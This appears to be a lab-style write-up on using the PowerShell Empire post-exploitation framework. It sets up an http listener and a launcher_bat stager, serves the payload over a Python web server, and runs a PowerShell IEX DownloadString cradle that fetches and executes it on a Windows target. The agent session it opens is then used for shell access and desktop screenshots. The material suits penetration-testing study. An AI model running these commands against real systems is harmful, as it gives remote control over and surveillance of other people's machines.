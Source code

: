 # Welcome to Cyber Secure Labs

<a href="./">Home</a>   <a href="../filetransfer.md">File Transfers Techniques</a>

## Working with the newest version of Powershell Empire

Public Site for sharing security writes

Write-up by: Cybersec


## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

**Windows Platform: `Exploitation and post exploits are performed using Powershell.`**

**Linux & macOS: `Exploitation requires Python 2.6 or 2.7`**

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](./Untitled%201.png)

Use the following command to list all listeners, if any is still running:

Command:

`listners`

![Untitled](./Untitled%202.png)

You can use the following command to kill a active listener:

![Untitled](./Untitled%203.png)

**Command:**

syntax: kill <name of listener>

kill test

kill http

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name http

set Host 192.168.119.208

set Port 4443

execute
```

![Untitled](./Untitled%204.png)

![Untitled](./Untitled%205.png)

Before we setup a stager, we will check to ensure no agents are currently running with the below 

**Command:**

`agents`

![Untitled](./Untitled%206.png)

If an agent was running and you would like to kill it, simply use the command below:

**syntax:** 

`kill <name of the agent>`

### Setting up a stager:

We will set our stager to: `windows/launcher_bat` and set our listener to be `http` just as we have named it when setting up the listener and execute it to start the listener.

```bash
usestager windows/launcher_bat

set Listener http

execute

```

After setting up the stager with the above commands, the follow payload will be exported to your a location on your machine.  In the context of this exercise, we will copy the exported payload and save to a directory and serve it to our target machine via a python web server.

![Untitled](./Untitled%207.png)

We will start a Python web server and transfer the file onto the windows target.

Command: 

`python3 -m http.server 3030`

![Untitled](./Untitled%208.png)

On the windows target machine,we will download the file and execute it without saving it to the target machine local hard-disk with the below power-shell command:

![Untitled](./Untitled%209.png)

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.208:3030/launcher.bat')
```

After executing the command above and hit enter twice at the command prompt, our script executes and a session is passed back to our powershell empire listening console.

![Untitled](./Untitled%2010.png)

### Setting up a stager:

From the above, we can see that a new agent A26S4CZV checked in

We can use the below command to list all agents

![Untitled](./Untitled%2011.png)

```
agents

```

Interacting with an agent is simple as using the below syntax

interact <agent name>

Example: 

```
interact A26S4CZV

```

![Untitled](./Untitled%2012.png)

### Post Exploitation Commands:

```
info

```

![Untitled](./Untitled%2013.png)

Using the command shell:

Command:

`shell`

![Untitled](./Untitled%2014.png)

### Taking a Screenshot of Target Machine's desktop

```
usemodule powershell/collection/screenshot
execute
```

![Untitled](./Untitled%2015.png)

![Untitled](./Untitled%2016.png)
